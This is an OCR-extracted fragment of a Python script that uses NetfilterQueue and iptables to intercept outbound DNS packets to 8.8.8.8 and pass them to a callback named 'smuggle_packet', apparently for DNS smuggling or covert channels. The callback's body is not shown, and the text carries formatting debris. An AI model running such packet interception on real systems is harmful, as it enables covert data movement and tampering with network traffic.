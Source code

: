 
`       ``nfqueue_element.accept()    `







`nfqueue ``=` `NetfilterQueue()`




`nfqueue.bind(``0``, smuggle_packet)    `







`def` `clean_up(``*``args):`




`   ``subprocess.call(``'iptables -D OUTPUT -p udp --dst 8.8.8.8 --dport 53 -j QUEUE'``, shell``=``True``)    `







`signal.signal(signal.SIGINT, clean_up)    `







`try``:`




`   ``subprocess.call(``'iptables -I OUTPUT -p udp --dst 8.8.8.8 --dport 53 -j QUEUE'``, shell``=``True``)`




`   ``print``(``'running..'``)`




`   ``nfqueue.run()`




`except` `KeyboardInterrupt:`




`   ``print``(``'bye'``)`




</td>
</tr>
</tbody>
</table>
